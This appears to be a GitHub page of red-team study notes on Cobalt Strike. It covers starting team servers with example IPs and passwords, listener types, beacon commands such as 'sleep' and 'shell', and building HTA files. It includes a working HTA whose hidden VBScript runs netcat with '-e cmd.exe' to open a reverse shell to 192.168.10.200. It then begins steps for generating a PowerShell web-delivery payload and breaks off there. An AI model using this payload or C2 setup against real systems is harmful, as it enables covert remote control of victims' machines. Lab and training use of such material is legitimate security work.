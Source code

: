 ### Starting CS
#### How to start cobalt strike 4.3 ?
1. First start team server `./teamserver <KALI IP> <some password> <some C2 malleable profile>`
2. First start team server `./teamserver 192.168.10.200 password123 havex.profile`
3. Then `./start.sh`

#### How to start cobalt strike 4.7 ?
1. First start team server `./teamserver <KALI IP> <some password> <some C2 malleable profile>`
2. First start team server `./teamserver 192.168.1.65 Password123`
3. Then to start the client `./cobaltstrike`

#### How to start listeners ?
1. Different types of listeners e.g. HTTP, DNS, SMB, TCP etc.
2. To find **Pipes** type the following command in **Powershell** `ls \\.\pipe\`.

#### Useful commands for CS 4.3?
1. Change beacon time `sleep <digit number>`
2. E.g Change beacon time to 02 seconds `sleep 2`
3. Run commands via cmd.exe `shell <some command>`
4. E.g `shell dir` or `shell whoami`

### HTA files
#### .hta file execution (requres Internet Explorer) 01 - Simple Hello World
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>
</html>
```
#### .hta file execution (requres Internet Explorer) 02 - Get reverse shell "console" is hidden
```
<html>
  <head>
    <title>Reverse Shell</title>
  </head>
  <body>
    <h2>get reverse shell on 192.168.10.200 at port 00</h2>
    <p>This is a HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      Shell.Run "cmd /c C:\Users\jon\Desktop\crtoStuff\nc.exe -e cmd.exe 192.168.10.200 200", 0, True
    End Function

    Pwn
  </script>
</html>
```
#### .hta file execution (requres Internet Explorer) 03 - Get poweshell reverse shell
1. In CS navigate to **Attacks > Web Drive-by > Scripted Web Delivery (S) and generate a 64-bit PowerShell payload for HTTP listener**. The URI path can be anything for e.g I had it **/tempOld**. 